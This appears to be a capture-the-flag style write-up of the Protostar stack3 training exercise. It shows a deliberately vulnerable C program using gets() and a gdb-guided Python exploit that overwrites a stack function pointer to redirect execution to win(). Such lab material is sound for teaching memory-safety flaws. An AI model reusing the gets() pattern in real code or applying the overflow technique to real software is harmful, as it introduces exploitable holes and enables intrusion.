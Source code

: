 ## Protostar exercises - [stack1](https://exploit-exercises.lains.space/protostar/stack3/)

#### About
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

both gdb and objdump is your friend you determining where the win() function lies in memory.
This level is at /opt/protostar/bin/stack3

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

#### Procedure:

Similar to stack0, the program is using `gets()` function to write input into a buffer. And the variable 'fp' which is a function pointer needs to be changed from 0 to address of 'win' function.

So first we need to find 'win' address using objdump and write it to the address of 'fp' variable

###### Vulnerability:

`gets` is vulnerable as it is impossible to tell how many characters gets() will reaed. it will continue to store the characters past the end of buffer.
`fgets` needs to be used instead.


###### Disassembly:

**disassemble.png**

'fp' is stored at $esp+0x5c. It is moved into eax and called at 0x08048477. Out aim is to overwrite $esp value at this point. Lets put breapoint at this call.

```
break *0x08048475
```

Lets execute with input large enough to change $eax

```
r
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

**registers.png**

We can see that $eax is changed to 0x41414141

We can find address of 'win' using `x win`
```
(gdb) x win
0x8048424 <win>:        0x83e58955
```

Now, we need to find which part of input is being written to $eax and change it to 0x8048424

So, lets run with input AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS and check the registers

**Registers-2.png**

$eax contains 0x53535353, which is 'SSSS'

Lets create a simple python program to create the string
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
padding += "\x24\x84\x04\x08"
print padding
```
Lets use the output of this to run stack3

```
python stack3.py > exp
(gdb) r < /home/user/exp
info registers
```

We see $eax is now 0x8048424. So, next instruction would be to execute $eax or win() and print success

**done.png**

We can also find the address of win() using
```
user@protostar:/opt/protostar/bin$ objdump -x ./stack3 | grep win
08048424 g     F .text  00000014              win
```


